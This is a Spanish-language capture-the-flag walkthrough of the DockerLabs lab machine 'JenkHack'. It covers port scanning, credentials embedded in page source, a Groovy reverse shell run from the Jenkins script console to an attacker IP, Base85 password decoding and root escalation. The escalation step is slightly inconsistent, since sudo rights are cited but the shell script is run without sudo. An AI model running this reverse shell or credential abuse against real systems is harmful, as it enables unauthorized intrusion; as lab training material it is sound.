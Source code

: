 # Informe de Penetration Testing – Máquina *JenkHack*

**Nivel:** Fácil

**Objetivo:** Obtener acceso root en la máquina vulnerable mediante Jenkins

![Logo](/JenkHack/Imagenes/Logo.jpeg)

---

## 1. Despliegue de la Máquina

Se descarga la máquina vulnerable desde el portal de DockerLabs, obteniendo un archivo comprimido llamado `jenkhack.zip`. Procedemos a descomprimirlo con el siguiente comando:

```bash
unzip jenkhack.zip
```

Luego, se despliega el contenedor utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh jenkhack.tar
```

![Despliegue](/JenkHack/Imagenes/Despliegue.jpeg)

Una vez desplegado, verificamos la conectividad hacia la máquina vulnerable con un simple ping:

```bash
ping -c1 172.17.0.2
```

![Ping](/JenkHack/Imagenes/Ping.jpeg)

---

## 2. Escaneo de Puertos

Realizamos un escaneo de puertos completo usando Nmap para identificar los servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se identificaron los siguientes puertos abiertos: `80`, `443`, y `8080`.

![Puertos Abiertos](/JenkHack/Imagenes/Puerto.jpeg)

Con mi script personalizado `extractPorts`, extraigo los puertos abiertos y realizo un escaneo más profundo para obtener las versiones de los servicios:

```bash
nmap -sV -sC -p80,443,8080 172.17.0.2 -oG target.txt
```

![Servicios Detectados](/JenkHack/Imagenes/Servicios.jpeg)

---

## 3. Análisis Web

### Puerto 80 (HTTP)

Al acceder mediante navegador al puerto 80, observamos una página web sencilla.

![Página Web](/JenkHack/Imagenes/Pagina.jpeg)

### Puertos 443 y 8080

En el puerto 8080 se encuentra una interfaz de inicio de sesión que parece ser Jenkins. Al intentar autenticar, redirige a la página principal en el puerto 80 si las credenciales son válidas en el puerto 443 es la pagina para entrar a la pagina de Jenkins.

![Interfaz de Inicio de Sesión](/JenkHack/Imagenes/Registro.jpeg)

---

## 4. Revisión de Código Fuente y Credenciales

Realicé un análisis de código fuente del HTML alojado en el puerto 80. En el mismo se encontraron posibles credenciales embebidas:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Código Fuente con Credenciales](/JenkHack/Imagenes/Fuente.jpeg)

Como solo había dos posibles valores, realicé un ataque de fuerza bruta manual combinando las credenciales. Logré iniciar sesión correctamente con:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Sesión Iniciada](/JenkHack/Imagenes/Sesion.jpeg)
![Jenkins Panel](/JenkHack/Imagenes/Jenkins.jpeg)

---

## 5. Ejecución de Reverse Shell

Para obtener una shell inversa, primero configuramos un listener en la máquina atacante:

```bash
sudo nc -lvnp 4444
```

![Escucha Netcat](/JenkHack/Imagenes/Escucha.jpeg)

Dentro del panel de Jenkins, navegamos a:

`Administrador de Jenkins` → `Consola de scripts`

Allí ejecutamos el siguiente código Groovy para generar una reverse shell:

```groovy
def cmd = ["/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.10/4444 0>&1"]
def proc = new ProcessBuilder(cmd).redirectErrorStream(true).start()
proc.waitFor()
```

> Asegúrate de reemplazar `192.168.1.10` con la IP de tu máquina atacante.

![Consola Jenkins](/JenkHack/Imagenes/Consola.jpeg)
![Reverse Shell](/JenkHack/Imagenes/RevelShell.jpeg)

---

## 6. Post-Explotación

Ya dentro del sistema, identificamos que estamos dentro del contenedor como el usuario `jenkins`.

Navegando al directorio `/var/www/jenkhack` encontramos un archivo `note.txt` que contenía una cadena sospechosa codificada:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

![Contenido del Archivo](/JenkHack/Imagenes/Terminal.jpeg)

La cadena parece estar codificada en Base85. Utilizamos Python para decodificarla:

```bash
python3
```

```python
import base64
base64.a85decode("C1V9uBl8!'Ci*`uDfP")
```

Esto reveló el texto plano: `jenkinselmejor`.

![Decodificación Base85](/JenkHack/Imagenes/Bash85.jpeg)

Estas nuevas credenciales (`jenkhack:jenkinselmejor`) nos permitieron cambiar de usuario en la máquina:

```bash
su jenkhack
```

---

## 7. Escalada de Privilegios

Con el nuevo usuario, verificamos los permisos `sudo`:

```bash
sudo -l
```

Esto reveló que teníamos permisos para ejecutar comandos como root sin contraseña. Aprovechamos esto para crear un script Bash que nos proporcionara un shell:

```bash
rm bash.sh
echo -e "#!/bin/bash\n\nexec /bin/bash" > bash.sh
chmod +x bash.sh
./bash.sh
```

![Evidencia Total](/JenkHack/Imagenes/ALL.jpeg)

Esto nos dio acceso root al sistema.

![Acceso Root](/JenkHack/Imagenes/Root.jpeg)

---

## Conclusión

La máquina vulnerable *JenkHack* permitió practicar varias fases del hacking ético:

* Reconocimiento con Nmap.
* Análisis web manual.
* Descubrimiento de credenciales en código fuente.
* Uso del panel de Jenkins para ejecutar comandos maliciosos.
* Decodificación de una contraseña en Base85.
* Escalada de privilegios mediante `sudo`.

Esta máquina es excelente para principiantes que deseen familiarizarse con Jenkins y técnicas comunes de explotación en contenedores Docker.
